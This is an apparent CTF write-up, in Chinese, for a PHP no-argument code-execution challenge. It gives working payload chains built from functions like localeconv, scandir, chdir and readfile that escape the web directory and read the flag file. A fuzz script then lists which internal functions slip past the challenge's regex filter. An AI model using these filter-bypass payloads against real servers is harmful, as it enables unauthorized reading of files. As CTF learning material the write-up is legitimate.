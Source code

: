> `code.php`在`www/code/code.php`,`flag`在`www/flag`

`current(localeconv())`得到`.`

`chdir(next(scandir(pos(localeconv()))));`切换到父级目录

`chr(ord(strrev(crypt(serialize(array(chdir(next(scandir(pos(localeconv()))))))))))`获取父级目录

`echo(readfile(end(scandir(chr(ord(strrev(crypt(serialize(array(chdir(next(scandir(pos(localeconv()))))))))))))));`getflag

---

`chdir(next(scandir(pos(localeconv()))))`切换到父级目录,成功则返回`1`

因此,如果切换成功则对父级目录进行读取

`if(chdir(next(scandir(pos(localeconv())))))readfile(end(scandir(pos(localeconv()))));`

### fuzz脚本

```php
<?php
#var_dump(get_defined_functions()["internal"]);
$func = array();
$j = 0;
for ($i = 0; $i < count(get_defined_functions()["internal"]); $i++) {
    if (!preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', get_defined_functions()["internal"][$i])) {
        $func[$j] = get_defined_functions()["internal"][$i];
        $j++;
    }
}
#print_r($func);
$a = ['getenv', 'getallheaders', 'get_defined_vars', 'session_id', 'getcwd', 'phpversion', 'localeconv', 'time', 'localtime', 'array_rand', 'array_flip', 'array_reverser', 'current', 'pos', 'end', 'floor', 'ceil', 'sqrt', 'dirname', 'chdir', 'scandir', 'system', 'sin', 'cos', 'tan', 'sinh', 'cosh', 'tanh', 'next', 'chr', 'ord', 'str_split', 'strval', 'fclose', 'tmpfile', 'file_get_contents', 'highlight_file', 'show_source', 'readfile', 'readgzfile', 'file', 'hebrevc', 'crypt', 'serialize', 'array'];
#print_r($a);
for ($i = 0; $i < count($func); $i++) {
    for ($j = 0; $j < count($a); $j++) {
        if ($a[$j] == $func[$i]) {
            var_dump($a[$j]);
        }
    }
}
```